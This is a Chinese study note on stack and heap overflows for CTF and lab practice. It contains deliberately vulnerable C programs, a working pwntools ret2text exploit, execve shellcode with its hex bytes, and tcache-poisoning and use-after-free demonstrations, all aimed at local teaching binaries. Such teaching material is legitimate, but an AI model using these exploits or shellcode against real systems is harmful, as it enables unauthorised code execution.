





# 21. 栈溢出与堆溢出

> 日期：2026-11-04
> 所属大纲阶段：4. 系统与二进制安全
> 参考资料：
> - Aleph One,《Smashing the Stack for Fun and Profit》，Phrack 49-14（1996）
> - 《CTF 权威指南：Pwn》第 3-5 章
> - pwntools 官方文档（docs.pwntools.com）
> - glibc `malloc.c` 源码与 wiki（sourceware.org/glibc/wiki/Heap）
> - CWE-120（Buffer Copy without Checking Size of Input）/ CWE-416（UAF）/ CWE-415（Double Free），MITRE 官方条目
> - How2Heap（shellphish 团队，GitHub 堆利用教学仓库）

**声明：本篇全部漏洞代码、利用脚本仅用于本地学习环境与 CTF 题目，禁止对任何未授权系统使用。所有「靶机」均为本人虚拟机中编译的教学程序。**

---

## 1. 缓冲区溢出的历史坐标

- **1988 Morris 蠕虫**：互联网史上第一只蠕虫，利用手段之一就是 fingerd 的 `gets()` 栈溢出——一句话记住它：让「缓冲区溢出」第一次登上世界头条。
- **1996 Aleph One 发表《Smashing the Stack for Fun and Profit》**（Phrack 49-14）：第一次系统化地讲解栈溢出原理与 shellcode 注入，是本领域的「创世文献」，本篇 §3 的图就是它的现代 64 位版。
- 其后攻防螺旋：NX → ROP；ASLR → 信息泄露；Canary → 泄露 canary；RELRO/Safe-Linking → 新一轮堆技巧。每一代防御对应一类新技术，这条时间线本身就是二进制安全的学习地图。

**缓冲区溢出（Buffer Overflow）**：向定长缓冲区写入超过其容量的数据，多余字节越界覆盖相邻内存。发生在栈上叫栈溢出，发生在堆上叫堆溢出。CWE-120 是其官方编号。

---

## 2. 前置检查：checksec

拿到靶机第一件事永远是 checksec（pwntools 自带）：

```bash
$ checksec --file=./vuln
[*] '/home/user/labs/stack1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

| 输出项 | 含义 | 对利用的影响 |
|--------|------|--------------|
| Arch | 架构与端序 | amd64-64-little：64 位小端 |
| RELRO | Partial/Full/No | Partial → GOT 可写（可打 GOT 劫持） |
| Stack | Canary 有无 | No canary → 直接覆盖返回地址 |
| NX | 栈是否可执行 | enabled → 不能 ret2shellcode，要走 ROP |
| PIE | 程序基址是否随机 | No PIE → 程序内地址固定可直接用 |

---

## 3. 栈溢出原理完整图解

### 3.1 脆弱代码（仅限本地学习环境）

```c
// vuln.c —— 教学用故意脆弱程序，仅限本地学习环境
#include <stdio.h>
#include <unistd.h>

void backdoor(void) {              // CTF 常见的「后门函数」
    system("/bin/sh");
}

void vulnerable(void) {
    char buf[64];                  // 栈上 64 字节缓冲区
    puts("input:");
    read(0, buf, 0x200);           // 漏洞：读 0x200 字节进 64 字节缓冲区
}

int main(void) {
    vulnerable();
    return 0;
}
```

`read` 不检查目标容量（也不该检查——它只管复制），多出的 0x180 字节沿栈向高地址漫过。C 标准库中同级别危险函数：`gets/strcpy/strcat/sprintf/scanf("%s")`。

### 3.2 覆盖过程逐步图

`vulnerable()` 执行 `read` 前的栈布局（-O0 典型形态）：



写满 0x40 字节后开始逐字节吞噬 saved rbp（0x40~0x48 这 8 字节），写到 **0x48~0x50 这 8 字节时，函数 `ret` 弹出的就不再是 main 的地址，而是我们安排的值**：



### 3.3 教学编译选项及「为什么关掉防御」

```bash
gcc -m64 -O0 -g \
    -fno-stack-protector \    # 关 Canary：让覆盖返回地址畅通无阻
    -no-pie \                 # 关 PIE：程序地址固定在 0x400000，无需泄露
    -z execstack \            # 开栈可执行：允许后面演示 ret2shellcode
    -o vuln vuln.c
```

| 选项 | 作用 | 教学时为什么关 |
|------|------|----------------|
| `-fno-stack-protector` | 不插 Canary | 先学「裸」溢出，Canary 场景在 §9 泄露后再练 |
| `-no-pie` | 固定加载地址 | 后门函数地址可直接写死，聚焦溢出本身 |
| `-z execstack` | 栈页变 rwx | 保留 ret2shellcode 这一经典课目（NX 时代前的默认形态） |

**生产代码一个都不能关**。Ubuntu 的 gcc 默认全开（ Canary、NX、PIE、Partial RELRO），所以同一个源码直接 `gcc vuln.c` 出来的二进制，初学者打不动是正常的。

---

## 4. ret2text：完整利用流程（仅限本地学习环境）

**ret2text**：返回地址改指到**程序自身 .text 段**里已有的代码——这里是现成的 `backdoor` 函数。

### 4.1 第一步：确定溢出偏移

用 pwntools 的 De Bruijn 序列（cyclic pattern）：

```text
$ python3 -c "from pwn import *; context.arch='amd64'; print(cyclic(200).decode())"
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam...（每 4 字节唯一可定位）
```

gdb 中把它喂给程序，崩在 ret 时看 rsp 指向的值（64 位下 `x/gx` 一次读出 8 字节）：

```text
pwndbg> cyclic 200            # pwndbg 也内置同款
pwndbg> r                     # 运行，输入该串
Program received signal SIGSEGV
pwndbg> x/gx $rsp             # 查看返回地址被覆盖成了什么（8 字节）
0x7fffffffe2b8:    0x6161617461616173
                   └ 小端即 "saaataaa"，低 4 字节 0x61616173("saaa")
                     → cyclic_find(0x61616173) = 72 (0x48)
```

与手算一致：**偏移 = 72 = buf 到返回地址的距离**。（pwndbg 直接提示 `pattern found: offset 72`。）

### 4.2 第二步：找 backdoor 地址

```bash
$ objdump -d -M intel vuln | grep -A3 '<backdoor>'
0000000000401186 <backdoor>:
  401186:  endbr64
  ...
$ readelf -s vuln | grep backdoor      # 或查符号表
```

### 4.3 第三步：完整 pwntools exp

```python
#!/usr/bin/env python3
# exp_ret2text.py —— 仅限本地学习环境
from pwn import *

context(arch='amd64', os='linux', log_level='info')

p = process('./vuln')                    # 本地起进程
elf = ELF('./vuln')

offset   = 72                            # cyclic 实测
backdoor = elf.symbols['backdoor']       # 0x401186
ret      = 0x40101a                      # 任取一个裸 ret 指令地址，用于 16 字节对齐（见 §9）

# 栈对齐：backdoor 内 system 会用到 movaps，多垫一个 ret 保证进入 system 时 rsp%16==0
payload = flat(
    b'A' * offset,
    ret,                                 # 对齐垫片
    backdoor,                            # 劫持目标
)

p.sendlineafter(b'input:', payload)      # 等 "input:" 提示后发送
p.interactive()                          # 交互模式，$ whoami 验证拿到 shell
```

```text
$ python3 exp_ret2text.py
[+] Starting local process './vuln': pid 3210
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

流程总结：**cyclic 定偏移 → 选目标地址（.text 内现成代码）→ 填充+地址 → 对齐垫片 → getshell**。这五步是后面一切栈题的骨架。

---

## 5. 栈溢出变体：off-by-one 与栈迁移引子

**off-by-one**：只多写**一个字节**的边界错误（CWE-193），典型如：

```c
for (i = 0; i <= 64; i++)   // 应为 <
    buf[i] = src[i];
```

在 64 位下，这「多出的一字节」最常见落点是**相邻指针（saved rbp）的最低字节**：

```text
覆盖前：saved rbp = 0x7fffffffe4d0
写入一个 \x00：
覆盖后：saved rbp = 0x7fffffffe400   ← 低字节被改，指针被"拉低"
```

低字节污染后，上一帧的 rbp 指向了攻击者可控的栈区域；再经 `leave; ret`（mov rsp, rbp; pop rbp; ret）就产生**栈迁移（stack pivot）**的雏形：rsp 被搬到伪造帧，后续 ret 链完全由伪造帧内容决定。完整迁移技术（迁到 .bss 等）在笔记 22 §9 展开。防御角度：off-by-one 单字节破坏力有限，但在 canary 存在时依旧危险——因为 canary 最低字节恰是 \x00，逐字节爆破可以还原它。

---

## 6. ret2shellcode：往栈上写代码（execstack 开启时，仅限本地学习环境）

### 6.1 适用条件

`-z execstack` 让栈页 rwx（checksec 显示 `NX disabled`），且**栈地址可知**（ASLR 关闭：`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`，或题目直接把栈地址打出来）。此时经典三段式成立：**输入 shellcode → 溢出改返回地址指向 buf → ret 执行 buf 中的代码**。

### 6.2 execve shellcode 逐行解释

```asm
; 22 字节 /bin/sh shellcode（x86-64）
    xor    esi, esi                  ; rsi = 0        → execve 第 2 参 argv=NULL
    push   rsi                       ; 压 8 字节 0：既当字符串结尾 \0，又对齐
    movabs rdi, 0x68732f2f6e69622f   ; "/bin//sh" 的小端 64 位立即数（见下方字节序说明）
    push   rdi
    push   rsp
    pop    rdi                       ; rdi = 栈上 "/bin//sh" 首地址 → 第 1 参 path
    push   59
    pop    rax                       ; rax = 59 = __NR_execve
    cdq                             ; rdx = sign(eax) = 0 → 第 3 参 envp=NULL
    syscall                          ; execve("/bin//sh", NULL, NULL)
```

要点逐个说：

- **字节序**：小端机器上，把字符串 `"/bin//sh"` 按 8 字节倒序塞进立即数。`h s / / n i b /`（0x68 0x73 0x2f 0x2f 0x6e 0x69 0x62 0x2f）作为 64 位立即数就是 `0x68732f2f6e69622f`，push 后栈上从低到高正好是 `/ b i n / / s h`。
- **双斜杠 `//sh`**：凑满 8 字节对齐，路径解析等价 `/bin/sh`。
- **为什么用 push/pop 而不 mov**：更短，且避免立即数里出现 \x00（read/scanf 等读到 \x00 会截断输入）。
- **xor 清零 + cdq**：以最少字节构造 NULL 指针。

十六进制形态（pwntools 可直接验证汇编）：

```text
$ python3 -c "
from pwn import *
context.arch='amd64'
print(asm('''
xor esi, esi
push rsi
movabs rdi, 0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 59
pop rax
cdq
syscall
''').hex())"
31f65648bf2f62696e2f2f736857545f6a3b58990f05
```

### 6.3 exp 骨架

```python
from pwn import *
context(arch='amd64')
p = process('./vuln_nxoff')            # execstack 版
shellcode = asm(...上段汇编...)          # 22 字节
buf_addr = 0x7fffffffe2c0              # gdb 断点处 x/s $rdi 或题目泄漏所得
payload = shellcode.ljust(72, b'\x90') + p64(buf_addr)
#                                   └─ nop 滑板填充到偏移
p.sendline(payload)
p.interactive()
```

`\x90`（nop）滑板让「落点差几十字节」也能滑进 shellcode，是 shellcode 时代的容错手法。**默认 NX 开启的现代环境下此路不通**——这正是 ROP 诞生的原因（笔记 22）。

---

## 7. 堆溢出

### 7.1 原理：越界写相邻 chunk 的元数据

堆上分配相邻，越界写直接落在**下一个 chunk 的 prev_size / size / user data** 上：



对比栈溢出：栈上越界最终覆盖**返回地址**（控制流直接劫持）；堆上越界破坏的是**分配器数据结构**，先把「malloc 返回哪里」搞乱，再间接达成任意地址写/任意分配——攻击链条更长，但同样致命。

```c
// heapof.c —— 仅限本地学习环境（glibc 2.26~2.31，无 Safe-Linking）
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    long target = 0;                          // 目标：让 malloc 命中它
    long *a = malloc(0x40);
    long *b = malloc(0x40);
    long *c = malloc(0x40);                   // c 隔开 top，防止释放后与 top 合并
    free(c);                                  // c 先进 tcache（该桶 count=1）
    free(b);                                  // b 后进 → 链头 b → c（count=2，
                                              //  多 free 一个是为了 count 够取两次）

    /* 堆溢出：a 的 user 区 0x40 字节为 a[0..7]；越界继续写：
       a[8] 落在 b 的 prev_size（P=1 时无效字段，写不写都行），
       a[9] 落在 b 的 size 字段，a[10] 才是 b 的 next（tcache 链） */
    a[8] = 0;                                 // b 的 prev_size：无效字段，写 0 无影响
    a[9] = 0x51;                              // 保持 b 的 size（0x50|PREV_INUSE）
    a[10] = (long)&target;                    // 毒化链头 next：直接写目标地址——
                                              // tcache 的 next 存 mem 指针，malloc 原样返回

    long *d = malloc(0x40);                   // tcache LIFO：d == b（count 2→1）
    long *e = malloc(0x40);                   // e == &target  ← 任意地址分配！（1→0）
    printf("e=%p target=%p e==target? %d\n", e, &target, e == &target);
    *e = 0x41414141;                          // 写 target：拿到受控原语
    printf("target = %#lx\n", target);
}
```

### 7.2 tcache poisoning 原理详解

tcache 空闲链：`entries[idx] → b → (b->next) → NULL`。free 后的 b 头两字段含义改变：



**poisoning**：用越界写（或 UAF）把 `b->next` 改成 `X`，链表变成 `b → X`。下次 malloc 两次：

```text
第 1 次 malloc：返回 b，链头变成 X（next 已被我们改）
第 2 次 malloc：返回 X   ← 任意地址！（X 就是写进 next 的目标地址）
```

- 为什么直接写 `&target`：tcache 的 next 存的本来就是 malloc 将返回的 **mem 指针**（见笔记 20 §5.4），`tcache_get` 原样返回它，无需加减。「next = target-0x10」是 **fastbin** 攻击的规则（fd 指向 chunk 头、malloc 返回 `chunk+0x10`），两者别混；
- 前提：桶内 count ≥ 2（free 两个同尺寸块）：malloc 只在 count > 0 时才走 tcache 路径，count 用尽后链头再毒也取不出来；
- 改写后第二次 malloc 时 tcache 只做极简检查（2.32 前连对齐都不查），因此号称「两行代码任意地址 malloc」；
- **glibc 2.32+ Safe-Linking**：next 存储值 = `(chunk_addr >> 12) ^ next`，改 next 时必须带上 chunk 地址高位的异或：`fake = (b_addr >> 12) ^ target`。同时 malloc 取出时校验对齐，构造难度上升但思路未变。

### 7.3 double free 与 glibc 2.29+ 的检测

同一指针 free 两次（CWE-415）：



- **fastbin 顶层检测**（很早就有）：free 时检查链头是否就是本块，只拦「连续 free 同一块」，隔一个 free（a b a）即可绕——CTF 的 fastbin dup 就是这个套路；
- **glibc 2.29+ tcache key**：free 进 tcache 时把 `e->key = tcache_struct`；再次 free 时发现 key 相等就遍历链表确认，命中则 abort（`free(): double free detected in tcache 2`）；
- **绕过思路（预告）**：①把 key 改掉（堆溢出/UAF 顺手覆写）；②让两次 free 之间块已被取出（改 counts/利用 fastbin 路径）；③用 `house of botcake`（2.29+ 经典）让同一块同时存在于 tcache 与 unsorted；这些都属于进阶堆篇，本篇记住检测原理即可。

### 7.4 堆溢出利用思路全景（概览）

| 思路 | 一句话 |
|------|--------|
| overlapping chunk | 篡改 size 让 free/malloc 切割出与在用块**重叠**的块，合法读写另一块 |
| tcache poisoning | §7.2，任意地址分配 |
| fastbin attack | 老版本在 fastbin 伪造 chunk（需 size 合法），打 `__malloc_hook` 一族 |
| unsorted bin attack | 改 bk 写 main_arena 地址到目标（老版本，今多被打补丁） |
| house of 系列 | house of force / house of orange / house of botcake / house of pig…每种对应特定 glibc 版本的组合拳，建议按版本逐个攻破 |
| UAF 见 §8 | 不溢出也能拿到的写原语 |

### 7.5 Use-After-Free（UAF）详解

**UAF（CWE-416）**：free 后**指针没置空**（悬垂指针，dangling pointer），且这块内存随后被重新分配给了别人，旧指针再访问时读到/写到的已是新主人的数据。

```c
// uaf.c —— 仅限本地学习环境
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    int          id;
    void (*show)(const char *);       // 函数指针：C「面向对象」的常态
} Widget;

void safe_show(const char *s) { printf("[widget] %s\n", s); }
void evil_show(const char *s) { system(s); }      // 模拟攻击者布置的函数

int main(void) {
    Widget *w = malloc(sizeof(Widget));           // 16 字节
    w->id = 1;
    w->show = safe_show;
    w->show("hello");

    free(w);                                      // 释放，但 w 忘了置 NULL
    // —— tcache LIFO：同尺寸再分配，取回的就是同一块 ——
    unsigned long *impostor = malloc(sizeof(Widget));
    impostor[0] = 0x1337;                         // 冒名顶替：改写对象内容
    impostor[1] = (unsigned long)evil_show;       // 关键：偷换函数指针

    w->show("/bin/sh");                           // UAF！旧指针调用 → system("/bin/sh")
}
```

链条：`free → 同尺寸重分配命中同一块（tcache 使这一切无比容易）→ 旧指针读写的其实是新数据 → 函数指针/长度字段/链表指针被偷换`。UAF 是浏览器、内核提权漏洞的第一大来源；防御要点：free 后立即置空、用后即弃的句柄设计、引用计数（RCU/refcount）。

### 7.6 Double Free 原理小结

- 本质：同一内存被归还两次 → 分配器账本里它出现两次 → 两个指针指向同一块（别名，aliasing）→ 一处写另一处可见，所有「写原语」攻击的温床；
- 与 UAF 的关系：double free 是「制造别名」的手段之一，UAF 是「使用悬垂指针」这个结果；
- C 里没有双重释放检测的语义帮助，规范层防御全靠纪律：`free(p); p = NULL;`（对每个别名同步）。

---

## 8. 真实世界 CVE 各一类

| 类别 | CVE | 概述 |
|------|-----|------|
| 栈溢出 | **CVE-2015-0235（GHOST）** | glibc `__nss_hostname_digits_dots`（gethostbyname 族）栈缓冲区溢出，远程可触发，影响大量服务 |
| 堆溢出（越界**读**） | **CVE-2014-0160（Heartbleed）** | OpenSSL 心跳扩展未校验长度，堆越界读回显内存——泄密钥/会话，"bleeding heart" 事件 |
| 堆 off-by-one | **CVE-2018-6789（Exim）** | base64 解码 off-by-one 越界写一字节，破坏相邻 chunk size，构造出远程 RCE |
| UAF | **CVE-2019-0708（BlueKeep）** | Windows RDP 预认证 UAF 类缺陷，可蠕虫级传播（MSF 模块编号披露后大规模修补） |
| Double free / 任意释放 | **CVE-2021-22555（Linux netfilter）** | 内核堆（kvmalloc 分配的 x_tables 规则内存）2 字节越界写清零相邻数据，转化为 double free → UAF → 容器/主机提权（Google 公开 writeup，内核堆利用教科书） |

阅读建议：每类挑一个读官方公告 + 一篇高质量 writeup，重点看「**根因是什么边界没检查**」和「**漏洞原语如何升级成代码执行**」，与 CTF 题目互相印证。

---

## 9. 防御机制对照与 glibc 加固时间线

### 9.1 机制对照表

| 机制 | 挡住什么 | 剩下的路 |
|------|----------|----------|
| Canary（`-fstack-protector`） | 线性栈溢出直达返回地址 | 泄露 canary 值（格式化串/内存泄露）；off-by-one 爆破；攻击不经过栈的数据指针 |
| NX/DEP | 注入并执行 shellcode | ROP/ret2libc：复用已有代码（笔记 22） |
| ASLR + PIE | 固定地址盲打 | 信息泄露先行：泄一个地址反推基址 |
| Full RELRO | 改 GOT 劫持 | 打返回地址/栈上函数指针/`__free_hook`（glibc ≤2.33，2.34 移除） |
| Safe-Linking（glibc 2.32+） | 裸改 tcache next | 已知堆地址时异或还原；转向 fastbin 路线 |
| CET/Shadow Stack（新硬件） | ret 劫持（ROP 的根基） | JOP/间接跳转导向（尚未普及，了解即可） |

### 9.2 glibc 堆加固简表

| glibc 版本 | 变化 |
|-----------|------|
| 2.26 | 引入 tcache（性能优化，同时改变了攻击面） |
| 2.26~2.28 | tcache 无 double-free 检测（tcache dup 黄金期） |
| 2.29 | tcache_entry 增加 key 字段：double free 运行时检测 |
| 2.31 | key 仍为 tcache 结构体指针（本版另修 malloc 可打印字符断言等） |
| 2.32 | **Safe-Linking**：next 指针按 `addr>>12` 异或存储；tcache 对齐检查 |
| 2.33 | `__malloc_hook` 等标记弃用 |
| 2.34 | **移除 `__malloc_hook/__free_hook/__realloc_hook`**（hook 系攻击面消失）；key 改为随机值 `tcache_key`（随机数生成，不再指向 tcache 结构体） |
| 2.35+ | 持续小修（如 unsorted bin 检查、tcache_count 扩容等） |

### 9.3 常见坑（本篇高能区）

1. **偏移必须实测**：gcc 版本/优化级别/是否有对齐填充都会改变 buf 到 ret 的距离，手算只做参考，cyclic 实测为准。
2. **movaps 崩溃（最经典的坑）**：exp 在 gdb 里好使、命令行里 SIGSEGV，崩在 libc 某条 `movaps [rsp], xmm0`——**栈没对齐到 16 字节**。修法：链上目标地址前多垫一个裸 `ret` 指令（`ret` 弹 8 字节恰好挪动对齐）。详见笔记 22 §10。
3. **p64 与小端**：地址必须 `p64()` 打包，直接 `str(hex(addr))` 发过去必挂；泄露时对应 `u64(leak.ljust(8, b'\x00'))`。
4. **sendline 的 \n**：`sendline` 多一个换行，若 payload 尾部正好是地址，\n 会覆盖下一字节；用 `send` 更可控。
5. **tcache 尺寸换算错**：malloc(0x40) 是 chunk 0x50；想让它进 tcache/fastbin 的尺寸桶，先按 `(req+8+0xf)&~0xf` 换算（笔记 20 §5.2）。
6. **free 后的 chunk 顶部 16 字节会被覆盖**：next/key 直接踩进 user data，UAF 利用「残留数据」时注意前 16 字节已面目全非。
7. **本地与远程 glibc 不一致**：本地 2.35 打通远程 2.31 必崩。用 `ldd --version` 核对，配套 patchelf 换运行时（笔记 24 §11）。
8. **关闭 ASLR 的方式**：`setarch -R ./vuln` 或 `echo 0 > /proc/sys/kernel/randomize_va_space`（gdb 默认已关）。忘记关就调试栈地址，会看到「地址一直在变」的灵异现象。

---

## 10. 完整练习清单（本地）

```text
1. §3 的 vuln.c 用默认选项编译（Canary/NX/PIE 全开），尝试溢出 → 观察
   __stack_chk_fail 崩溃信息与寄存器状态（不要求利用成功）。
2. 用 -fno-stack-protector -no-pie 复编译（保留 NX），完成 §4 ret2text。
3. 再加 -z execstack 并关 ASLR，完成 §6 ret2shellcode。
4. 用 §7.1 heapof.c 在 Ubuntu 20.04（glibc 2.31）复现 tcache poisoning；
   在 22.04（2.35）上观察它如何失败（Safe-Linking），并把 a[10] 改成
   异或后的正确值使其重新成功。
5. 把 uaf.c 的 malloc(16) 换成 malloc(0x50)，验证 tcache 尺寸无关紧要，
   关键是「同尺寸 LIFO 复用」。
```

---

## 11. 自测问题

1. 画出 `vulnerable()` 栈帧中 buf、canary、saved rbp、返回地址从低到高的顺序，并说明 cyclic 为什么能一次性测出偏移。
2. ret2text、ret2shellcode、ret2libc 三者各自依赖目标二进制的什么条件（两个 checksec 字段概括）？
3. `read(0, buf, 0x200)` 与 `strcpy(buf, src)` 造成的溢出有什么行为差异（提示：终止符、可写字节范围）？
4. off-by-one 覆盖 saved rbp 低字节后，`leave; ret` 序列如何一步步把执行流引向伪造栈帧？
5. 手算：在 glibc 2.31 上 `malloc(0x18)`、`malloc(0x410)`、`malloc(0x420)` free 后分别去哪？（答案：0x20 桶 tcache / `malloc(0x410)` 的 chunk 是 0x420，超 tcache 上限（tcache 最大 chunk 0x410、对应请求 ≤0x408），free 后进 unsortedbin / 同样超限进 unsortedbin；若要落 tcache 最后一个桶，应改用 `malloc(0x408)`）
6. tcache poisoning 中伪造 next 为什么直接写目标地址（对比 fastbin 的 `target-0x10`）？2.32+ 该写成什么表达式？
7. glibc 2.29 的 tcache key 检测拦住的是什么？给出两种绕过思路的方向。
8. UAF 的完整链条四步是什么？为什么 tcache 让「同尺寸复用」几乎必然发生？
9. Heartbleed 是读越界为什么也能造成严重后果？它泄露的内存属于进程地址空间的哪个区？
10. 你的 exp 在 gdb 里成功、脱离 gdb 就崩在 `movaps`，最可能的原因与修复方法？
11. 为什么 `free(p)` 之后强烈建议 `p = NULL`？它同时缓解了哪两类漏洞？

---

（完。下一篇：`22-ROP-返回导向编程.md`——当 NX 封死 shellcode，我们让程序「用自己的代码打自己」。）

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「3.2 覆盖过程逐步图」节 · 栈帧布局图（高地址→低地址） | flowchart TD |
| 「3.2 覆盖过程逐步图」节 · payload 输入布局+执行流图 | flowchart LR |
| 「7.1 原理：越界写相邻 chunk 的元数据」节 · 相邻 chunk 布局图 | flowchart LR |
| 「7.2 tcache poisoning 原理详解」节 · free 后 user 区布局图 | flowchart LR |
| 「8.2 双重释放」节 · fastbin 链成环 / tcache dup 链图 | flowchart LR |
